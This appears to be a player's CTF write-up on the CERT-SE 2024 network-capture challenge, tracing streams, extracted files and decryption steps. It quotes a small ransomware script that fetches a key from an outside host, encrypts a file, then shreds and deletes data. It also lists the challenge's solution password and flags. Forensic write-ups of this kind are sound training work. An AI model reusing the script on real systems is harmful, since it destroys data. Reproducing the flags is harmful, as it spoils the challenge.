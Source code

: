 #CTF
### Original file: CERT-SE_CTF2024.pcap

Identified ip/mac addresses on file:
An4lys3r/Employee 1: 	IP: 10.0.0.10 MAC: 52:54:00:16:f6:1f
D3f3nd3r/Employee 2: 	IP: 10.0.0.20 MAC: 52:54:00:11:19:a7
??: 			IP: 10.0.0.30 MAC: 52:54:00:52:dc:1f
Server?:		IP: 10.0.0.50 MAC: 52:54:00:6f:d7:65

Suspicious ip address: 195.200.72.82
FTP packets to presumed server shows the credentials to this server.
User: anonymous 
Pass: NcFTP@


#### Stream 0:

stream 0 and 1 are the same but 10.0.0.10 is involved in stream 1 and .20 in stream 0. .30 is involved in both.

Holds a conversation from employees discovering they have been hacked. Same on stream 1, only from the other employees perspective.
From beginning of stream output of system
:irc.ctf.alt 005 D3f3nd3r CHANNELLEN=50 NICKLEN=9 TOPICLEN=490 AWAYLEN=127 KICKLEN=400 MODES=5 MAXLIST=beI:50 EXCEPTS=e INVEX=I PENALTY FNC :are supported on this server
:irc.ctf.alt 251 D3f3nd3r :There are 1 users and 0 services on 1 servers
:irc.ctf.alt 253 D3f3nd3r 1 :unknown connection(s)
:irc.ctf.alt 254 D3f3nd3r 1 :channels formed
:irc.ctf.alt 255 D3f3nd3r :I have 1 users, 0 services and 0 servers
:irc.ctf.alt 265 D3f3nd3r 1 2 :Current local users: 1, Max: 2
:irc.ctf.alt 266 D3f3nd3r 1 2 :Current global users: 1, Max: 2
:irc.ctf.alt 250 D3f3nd3r :Highest connection count: 2 (4 connections received)
:irc.ctf.alt 375 D3f3nd3r :- irc.ctf.alt message of the day
:irc.ctf.alt 372 D3f3nd3r :- "Hello world!"
:irc.ctf.alt 376 D3f3nd3r :End of MOTD command

Found first flag on packet 1742.
Second on packet 4.

packet 147 the person in the datacenter sends over ransom note. /home/user/emergency_net/DCC/RANSOM_NOTE.gz
SHA-256 checksum to go along: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909

Someone posted a wordlist scraped from their public website, and ranting about recording web traffic from workstation CTF-PC01.

IP they found suspicious. Involved in [[Attacks on networks#C2 or C&C |C2]] and exfiltration activities. 195.200.72.82

#### Stream 2:
ransom
#### Stream 3:
corp_net1.pcap file sent to .20

#### Stream 4:
Packet 391 seems to have something to do with programming c++ buffer error and an error from a python library.
Packet 394 is very strange. Maybe has something to do with c++?
Packet 384/977 has something about a puzzle.exe
Packet 981 has some more whatyoulookingat.com and also polisen.se
Encrypted data but at the bottom is alot of "whatyoulookingat.com".
Also packet 1030 has alot of windows directory from recycle bin. and also whatyoulookingat.com, cloudflare.net and sapo.se.cdn.
They seem to have extracted Recycle-Bin.zip here also.

Extracted corp_net1.pcap here.

#### Stream 5:

corp_net2.pcap file sent to .20

#### Stream 6:

Looking at stream 3 where a request was made to get corp_net2.pcap, packet that said "ok to send data" was nr. 1128se and first packet of stream 6 was 1132 I figured this was probably
that .pcap file so i saved it as raw data with file extention .pcap, I was correct.

#### Stream 7:

disk1.img.gz file is sent to .20

#### Stream 8:

extracted file disk1.img.gz. Altough it cannot be decompressed with winrar.

#### Stream 10:

Seems to be the wordlist. 
Extracted file.

Extracted file: corp_net2.pcap

Extracted file: disk1.img.gz

## File disk1.img.gz

It was corrupted, but using [[Pen testing tools#Gzrecover|gzrecover]] and then [[Pen testing tools#TestDisk|testDisk]] I was able to extract 4 files.
1. secret
2. secret.encrypted
3. sslkeylogfile
4. ransomware.sh
After inspecting the files I found that sslkeylogfile contained some ssl keys for TLS 1.3.
Ransomware.sh contained a shell script that encrypted secret using -aes-128-cbc cipher with [[Pen testing tools#Openssl|openssl]], outputting the secret.encrypt file and then shredded the secret file with 'shred' command before removing it and the sslkeylogfile.
### ransomware.sh
`#!/bin/bash 
`password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
`openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
`shred secret
`rm secret
`rm sslkeylogfile
`rm $0

The secret file is probably a lost cause, I will instead focus on cracking the secret.encrypt file since I know aes128 was used and the sslkeylogfile previously extracted is probably going to help me decrypt the traffic where the password was obtained from whatyoulookingat.com.

## ransomNote.gz

After neglecting this file I ran gzrecover on it and got a ASCII text file. But the file was corrupted. The checksum is wrong, the original conversation the had the checksum provided: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909.

## corp_net1.pcap
### secret.encrypted

Here I found the password for the secret.encrypted file. Since I knew from the ransomware.sh script that the password was obtained from `whatyoulookingat.com/1.txt`, I searched for this as a regular expression in packet details. This led me to tcp stream 53 in this file. And packet 1920 had a payload of 17 bytes which had the password. 

	Password: pheiph0Xeiz8OhNa

Now I could decrypt the file. 
```
openssl enc -d -aes-128-cbc -in secret.encrypted -out secret.txt -pass pass:pheiph0Xeiz8OhNa
```
And in secret.txt was CTF\[OPPORTUNISTICALLY]

### puzzle.exe

After tls decryption of this file I found on stream 59 that puzzle.exe was extracted. This is most likely the file transmitted on stream 60.
This was correct, it is a puzzle.
Solved the puzzle, gave nothing, must be something more about it though.

#### Reverse engineer
#SRE 
Running `file puzzle.exe` in [[Bug hunting tools#Git bash|gitbash]] tells that it is a `PE32+ excecutable (GUI) x86-64, for MS Windows, 6 sections.`

### recycle-bin.zip

Stream 63 mentions transferring file Recycle-bin.zip. Extracted on stream 64.

### archive

Stream 66 mentions transferring file archive. Extracted on 

## corp_net2.pcap
### unauthorized html

Stream 57 had an html file where something was unauthorized.
### FLAGS:

CTF\[E65D46AD10F92508F500944B53168930]
CTF\[AES128]
CTF\[OPPORTUNISTICALLY]